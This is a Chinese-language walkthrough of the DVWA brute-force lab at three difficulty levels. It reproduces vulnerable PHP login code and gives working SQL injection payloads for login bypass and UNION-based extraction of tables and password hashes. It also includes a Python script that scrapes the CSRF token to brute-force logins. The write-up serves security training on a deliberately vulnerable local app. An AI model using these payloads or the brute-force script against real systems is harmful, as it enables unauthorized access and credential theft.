总结了dvwa中暴力破解的一些关卡
Low
代码复现如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| <?php
include("../sql-connection.php");
if(isset($_GET['Login'])){
$user=$_GET['username'];
$pass=$_GET['password'];
$pass=md5($pass);
$sql="SELECT * FROM users WHERE user='$user' AND password='$pass'";
$result=mysql_query($sql) or die(mysql_error());
if($result && mysql_num_rows($result) == 1){
$avatar=mysql_result($result,0,'avatar');
echo "<p>Welcome to the password protected area $user</p>";
echo "<img src=\"{$avatar}\" />";
}
else{
echo "<pre><br />Username and/or password incorrect.</pre>";
}
}
?>
|
这里的关卡是一个用户登录的界面，用户必须正确输入用户名和密码才能成功登录，我们从源代码来看，服务器只对是否GET了一个Login值进行了检测，存在了明显的sql注入漏洞，攻击者不仅可以通过sql注入获取用户信息，还可以利用暴力破解的方法获取用户密码，这就是Brute Force(暴力破解)
漏洞利用
(1)利用burpsuite爆破密码
首先抓包

因为我们要对password参数进行爆破，所以在password参数的内容两边加上$
然后将包发送到intruder模块，选中Payloads，载入字典，点击爆破


从爆破结果的响应包长度来看，只有值为password的响应包长度与众不同，猜测正确密码就是password，尝试登陆，成功

(2)sql注入
首先寻找注入点，这里因为$pass经过md5加密，所以不能当做注入点，注入点就只剩下了$user
我们可以使用万能密码登录，在username中输入admin’ or ‘1’=’1

登录成功
也可以输入admin’#

同样登录成功
如果要获取admin的密码信息，我们可以继续注入
因为服务器限制了查询结果返回的行数只能为1，所以要获取信息，我们必须能让$user值在数据库中不存在
任意输入username值为 0‘# 测试不存在该用户名
因为这里有返回信息，我们可以考虑用较为简单的联合查询注入
那么首先我们就必须知道查询的列数，输入admin’ order by 9#发现报错

所以查询列数为8
接下来就是找获取有效信息的位置，我们输入0’ union select 1,2,3,4,5,6,7,8#

从页面上看是获取不到我们需要的信息，因为图片加载不出来，但是我们可以从源代码看

有效信息在6所处的位置，因此我们在6的位置开始注入
首先爆库
输入0’ union select 1,2,3,4,5,database(),7,8#

接着爆表
输入0’ union select 1,2,3,4,5,(select group_concat(table_name) from information_schema.tables where table_schema=database()),7,8#

再来爆列
输入0’ union select 1,2,3,4,5,(select group_concat(column_name) from information_schema.columns where table_name=’users’),7,8#

最后爆数据
输入0’ union select 1,2,3,4,5,(select password from users where user=’admin’),7,8#

但是这里获取到的密码经过md5加密，md5又属于单向加密技术，所以这个密码并没有实际的用处
Medium
代码复现如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
| <?php
include("../sql-connection.php");
if(isset($_GET['Login'])){
$user=$_GET['username'];
$user=mysql_real_escape_string($user);
$pass=$_GET['password'];
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);
$sql="SELECT * FROM users WHERE user='$user' AND password='$pass'";
$result=mysql_query($sql) or die(mysql_error());
if($result && mysql_num_rows($result) == 1){
$avatar=mysql_result($result,0,'avatar');
echo "<p>Welcome to the password protected area $user</p>";
echo "<img src=\"{$avatar}\" />";
}
else{
sleep(2);
echo "<pre><br />Username and/or password incorrect.</pre>";
}
}
?>
|
相对于上一关，这关对$user和$pass进行了mysql_real_escape的转义处理，预防了sql注入
并且登录失败时会sleep 2秒
虽然预防了sql注入，但是依然可以利用burp爆破密码，跟上一关一样就不演示了
High
代码复现如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
| <?php
if(isset($_GET['Login'])){
//CheckAnti-CSRFtoken
checkToken($_REQUEST['user_token'],$_SESSION['session_token'],'index.php');
//Sanitiseusernameinput
$user=$_GET['username'];
$user=stripslashes($user);
$user=mysql_real_escape_string($user);
//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=stripslashes($pass);
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);
//Checkdatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)or die('<pre>'.mysql_error().'</pre>');
if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");
//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(rand(0,3));
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}
mysql_close();
}
//GenerateAnti-CSRFtoken
generateSessionToken();
?>
|
加入了token验证机制，我们每次登录时都必须提交一个token值，服务器将提交的token值与cookie或session中的token值对比，若不同则拦截下来，也就是说用之前burp爆破密码的方法是行不通的
还利用了mysql_real_escape_string函数对$user和$pass进行了转义处理，防止了sql注入
这里我们要想登录，就必须获取到token值，这关利用python脚本进行爆破
代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
| import requests
from bs4 import BeautifulSoup
url="http://127.0.0.1/dvwa/vulnerabilities/brute/"
header={
'Host': '127.0.0.1',
'Upgrade-Insecure-Requests': '1',
'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'zh-CN,zh;q=0.9',
'Cookie': 'security=high; PHPSESSID=842n4cnel00gbrkd5mi9fk98f6',
'Connection': 'close'
}
file=open('pass.txt','r')
for line in file:
line=line.strip()
s=requests.Session()
r=s.get(url,headers=header)
soup=BeautifulSoup(r.text,'html.parser')
user_token=soup.find_all('input')[3]['value']
payload={
'username':'admin',
'password':line,
'user_token':user_token,
'Login':'Login'
}
html=s.get(url,params=payload,headers=header)
length=len(html.text)
print('user_token:'+user_token+'username:admin password:'+line+' length:'+str(length))
|
思路是首先读取文件中一个个猜测的密码，这里只用10个密码进行模拟，然后创建一个会话记录，用于保政访问页面的token值不发生变化，然后利用BeautifulSoup库的find_all方法获取所有input标签组成的列表，带有token值的input标签在列表的第三个元素，然后将value属性的值，也就是token值取出，这就获得了token值，然后再将各个参数通过get形式传递给服务器，最终比较返回页面的长度，正常而言，输入正确和失败返回的页面长度是不同的，所以众多猜测密码中，只有一个密码返回的页面长度是不同的，那个密码就可能是正确的密码
这里还应当注意，应先用burp抓包获取访问登录页面的请求头，否则脚本每次访问的都是dvwa一开始的登录页面
脚本执行结果：

可以看出password的返回长度跟其他不同，在登录页面输入，登录成功